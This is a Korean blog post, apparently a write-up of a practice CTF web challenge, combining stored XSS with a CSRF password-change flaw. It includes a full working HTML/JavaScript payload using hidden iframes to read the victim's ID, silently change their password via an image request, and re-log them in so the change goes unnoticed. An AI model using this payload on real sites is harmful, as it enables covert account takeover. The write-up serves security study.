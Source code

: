 ```yaml
---
title: "CSRF 실습 1"
excerpt: "CSRF 실습 1번 문제를 풀어보자."
tags:
    - XSS
    - CSRF
    - 웹 해킹
last_modified_at: 2021-05-23T09:13:00-05:00
---
```


## CSRF 실습 1번 문제
- **csrf 공격**을 이용하여 계정의 비밀번호를 바꿔야한다.<br>![Pasted image 20230522191000](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/c98520c7-9094-4710-a7f4-ed2bebd17d88)


## 취약점 찾기

### 게시판 XSS 취약점 ( Stored XSS 취약점 )
- 게시판 제목과 게시판 본문에 클라이언트 스크립트가 삽입된다.
- `alert` 스크립트 코드를 이용하여 취약점 확인이 가능하다.


- 게시판 제목<br>![Pasted image 20230522205649](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/928e3995-ef07-45a4-9cea-d420b2dbf74f)<br>![Pasted image 20230522205704](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/ec5356a7-0f25-4d09-9c2d-c9b00f27c5c2)



- 본문<br>![Pasted image 20230522205555](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/f9fddf28-eba9-44e0-9be3-666c478f7c93)<br>![Pasted image 20230522205622](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/d5f87e21-aebc-4f53-bde8-37fcd48b46ed)


### 비밀번호 변경 요청 ( CSRF 취약점 )
- `burp suite` 를 통해 POST 로 비밀번호 변경 요청을 보내는 것을 확인할 수 있다.<br>![Pasted image 20230522205846](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/7adae6a0-98ee-47e4-9a76-bb2703d428d5)
- POST 방식에서 GET 방식으로 바꾸어 요청을 보내도 비밀번호가 변경되는 것을 확인할 수 있다.  로그인 한 상태에서 아래의 링크에 접속하면 비밀번호가 성공적으로 2222로 바뀐다.

```
http://ctf.segfaulthub.com:7777/csrf_1/mypage_update.php?id=&info=&pw=2222
```

- GET 을 통한 비밀번호 변경<br>![Pasted image 20230522210844](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/6e4840aa-91c9-461e-baa6-35a4ef7e0730)<br>![Pasted image 20230522210619](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/8d226f78-21e1-4750-822b-948174332578)
- 즉 URL 링크에 로그인한 사용자 브라우저에서 접속하게 된다면 사용자 몰래 비밀번호 변경이 가능하다.

### 로그인
- post 요청으로만 로그인을 할 수 있다.<br>![Pasted image 20230522225144](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/09e59aea-5fa1-4aee-a10d-306c196de303)


## 공격 시나리오
### URL 클릭 유도하기
- crsf 취약점이 있는 비밀번호 변경 url을 이용한다.
- 공격자가 비밀번호 변경 url 을 만들어 사용자에게 보내 클릭하도록 유도한다.
- 하지만 이러한 공격을 성공시킬려면 사용자가 로그인을 한 상태에서 공격자에게서 받은 링크에 접속하여야 한다.

```
비밀번호 2222로 변경하기
http://ctf.segfaulthub.com:7777/csrf_1/mypage_update.php?id=&info=&pw=2222
```

###  XSS + CSRF 취약점 합쳐서 공격하기
#### 최종 목표
- 사용자가 게시글을 열람하면 사용자의 비밀번호가 공격자가 설정한 비밀번호로 즉시 변경된다. 단 사용자는 비밀번호 변경이 일어났는지 알아서는 안된다.

#### 현재 서버 비밀번호 변경시 발생되는 일 ( 예측 )
1. 정상적으로 비밀번호 변경을 요청하면 비밀번호가 사용자가 입력한 값으로 바뀐다.
2. 현재 로그인 중인 세션 값은 만료가 되어 로그아웃이 된다.
3. 다시 로그인 하기 위하여 로그인 페이지로 넘어간다.

#### 공격 시나리오
1. 공격자는 악의적인 스크립트가 들어간 게시글을 작성한다.
2. 사용자가 로그인 하여 게시글을 살펴본다.
3. 사용자는 공격자가 작성한 게시글을 클릭하여 게시글 페이지에 들어간다.
4. 게시글 페이지에 들어가면 악의적인 스크립트에 의해 사용자의 비밀번호가 공격자가 설정한 비밀번호로 변경된다.

#### 공격 스크립트 작성

##### 마이페이지를 통해 아이디 가져오기
![Pasted image 20230523003251](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/3c459cd1-2d95-4cbb-9e2c-c9c013ec1fe7)

- 마이페이지를 통해 사용자 아이디 찾기.
  
```html
<iframe style="display:none;"  onload="get_id()" src="http://ctf.segfaulthub.com:7777/csrf_1/mypage.php">
</iframe>
<script>
function get_id(){
	id = document.getElementsByTagName('iframe')[0].contentWindow.document.getElementsByName('id')[0].placeholder;
}
</script>
```


##### 비밀번호 변경 스크립트
- img 태그의 src 부분을 이용하였다.
- 게시글 방문만 하면 바로 비밀번호가 변경된다.

```
http://ctf.segfaulthub.com:7777/csrf_1/mypage_update.php?id=&info=&pw=2222
```

```html
<script>
var url = "http://ctf.segfaulthub.com:7777/csrf_1/mypage_update.php?id=&info=&pw=2222";
new Image().src=url;
</script>
```

##### 다시 공격자가 설정한 비밀번호로 다시 로그인하기.
- 세션 값을 못 쓰게되어 자동으로 로그아웃이 된다. 따라서 iframe을 통해 다시 로그인하여 사용자는 로그아웃 없이 계속 페이지를 이용하는 것 처럼 느낄 수 있다.
- 다시 로그인을 해주면 세션 값이 새로운 값으로 바뀌게 된다.

- 로그인 화면 표시.

```html
<iframe style="display:none;" src="http://ctf.segfaulthub.com:7777/csrf_1/login.php" onload="change()"></iframe>
```

- 아이디 및 비밀번호 입력 & 로그인 하기

```html
<script>
function change(){
	document.getElementsByTagName('iframe')[0].contentWindow.document.getElementById('login-id').value = id;
	document.getElementsByTagName('iframe')[0].contentWindow.document.getElementById('login-pw').value = pw;
	document.getElementsByTagName('iframe')[0].contentWindow.document.forms[0].submit();
}
</script>
```


##### 최종 공격 스크립트
- 가장 먼저 마이페이지에서 아이디를 가지고 온다.
- 그런 다음 비밀번호를 변경하여준다.
- 마지막으로 바뀐 비밀번호로 다시 로그인해준다.

```html
<iframe style="display:none;" src="http://ctf.segfaulthub.com:7777/csrf_1/mypage.php" onload="get_id()">
</iframe>
<iframe style="display:none;" src="http://ctf.segfaulthub.com:7777/csrf_1/login.php" onload="change()"></iframe>
<script>
var id = "";
var pw = "1234";
function get_id(){
	id = document.getElementsByTagName('iframe')[0].contentWindow.document.getElementsByName('id')[0].placeholder;
	
	var url = "http://ctf.segfaulthub.com:7777/csrf_1/mypage_update.php?id=&info=&pw="+pw;
new Image().src=url;
}
function change(){
	document.getElementsByTagName('iframe')[1].contentWindow.document.getElementById('login-id').value = id;
	document.getElementsByTagName('iframe')[1].contentWindow.document.getElementById('login-pw').value = pw;
	document.getElementsByTagName('iframe')[1].contentWindow.document.forms[0].submit();
}
</script>
```


#### 공격시작
1. 완성된 스크립트를 이용하여 게시글을 작성한다.<br>![Pasted image 20230523022549](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/089f4135-01d5-4fc3-9ea5-12a8d5e5f65d)
2. 게시글을 저장해준다.<br>![Pasted image 20230523005809](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/40c9edbf-9fa2-4377-91b8-7cd6e8af08a5)
3. 사용자가 게시글을 방문하게 되면 비밀번호가 스크립트에서 설정한 `1234`로 변경된다. 서버에서는 자동으로 세션 값이 만료 시킨다. 로그인이 필요하지만 사용자는 정상적으로 게시글에 방문한 것 처럼 느끼게 된다. 왜냐하면 바뀐 비밀번호로 로그인을 하여 세션 값을 서버로부터 받기 때문이다.<br>![Pasted image 20230523023818](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/01194217-8ab1-4b51-9a2b-1ba16c4c51dc)


## 결론
- iframe 과 서로 쿠키 값을 공유하기 때문에 가능한 방법이었다.
- 사용자는 정상적으로 게시글을 확인한 것 처럼 느낄것이다. 하지만 사용자는 로그아웃 하고 다시 로그인 할 때 비밀번호가 변경되었다는 것을 알 수 있다.
